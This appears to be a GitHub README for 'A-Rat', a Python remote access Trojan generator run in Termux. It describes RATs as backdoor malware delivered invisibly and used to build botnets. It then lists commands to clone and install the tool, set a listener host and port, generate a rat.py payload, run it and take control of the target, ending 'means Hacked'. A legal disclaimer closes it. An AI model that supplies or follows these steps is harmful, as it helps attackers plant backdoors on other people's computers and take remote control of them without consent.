 ### ༒︎᯾𝐀 𝐑𝐚𝐭 𝐄𝐱𝐩𝐥𝐨𝐢𝐭᯾༒︎

> A-Rat = Remote access tool  we can generate python based rat. A remote access Trojan (RAT) is a malware program that includes a back door for administrative control over the target computer. RATs are usually downloaded invisibly with a user-requested program -- such as a game -- or sent as an email attachment. Once the host system is compromised, the intruder may use it to distribute RATs to other vulnerable computers and establish a botnet.

### ✰2 𝚆𝙰𝚈𝚂 𝚃𝙾 𝙸𝙽𝚂𝚃𝙰𝙻𝙻 𝙰 𝚁𝙰𝚃 𝙴𝚇𝙿𝙻𝙾𝙸𝚃 𝙾𝙽 𝚃𝙴𝚁𝙼𝚄𝚇✰ 

### ✰1𝚂𝚃 𝙸𝙽𝚂𝚃𝙰𝙻𝙻𝙰𝚃𝙸𝙾𝙽✰ : 

> You need to install Lazymux in Your Termux and install A-Rat Tool [LAZYMUX INSTALLATION](https://github.com/Zack-sys/LAZYMUX)

>> after installation of lazymux there are options in 22 number is avilable for A-RAt tool installation simply click the number 22 and install the A-Rat tool in termux.

### ✰2𝙽𝙳 𝙸𝙽𝚂𝚃𝙰𝙻𝙻𝙰𝚃𝙸𝙾𝙽✰ : 
```
$ apt update 
 ```
```
$ apt upgrade  
```
```
$ apt install git  
```
```
$ apt install python2  
```
```
$ apt install python  
```
```
$ git clone https://github.com/RexTheGod/A-Rat
```
```
$ cd A-Rat  
```
```
$ chmod +x *  
```

### ✰𝚄𝚜𝚊𝚐𝚎✰ :  
```
$ python2 A-Rat.py  
```
```
$ help  
```
```
$ set host 127.0.0.1 [your ip] 
 ```
```
$ set port 1337  
```
```
$ set output /$HOME/rat.py  
```
```
$ generate  
```

> It generates rat.py in termux home directory  
Open termux new session   

> type **`$ ls`**  here you get that rat.py  
 
> go to again A-Rat means privious session of termux  
Type run to start exploit.  

**`$ run`**  and then open new session and run rat like this  
**`$ python rat.py`**  and come back to A-Rat session
   
> Now its connected to that rat. means Hacked. 
 press control + c to stop.

### ⚠️ 𝙻𝙴𝙶𝙰𝙻 𝙳𝙸𝚂𝙲𝙻𝙰𝙸𝙼𝙴𝚁 ⚠️ 
> Usage of A-Rat for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

<h3><b><i>📡 𝑯𝑶𝑾 𝑻𝑶 𝑹𝑬𝑨𝑪𝑯 𝑴𝑬 :</i></b></h3>
<p align="left">
  <a href="https://github.com/Zack-sys" target="_blank"><img src="https://img.shields.io/badge/Github-Zack--sys-green?style=for-the-badge&logo=github"></a>
  <a href="https://www.instagram.com/Azealtech" target="_blank"><img src="https://img.shields.io/badge/IG-%40Azealtech-red?style=for-the-badge&logo=instagram"></a>
  
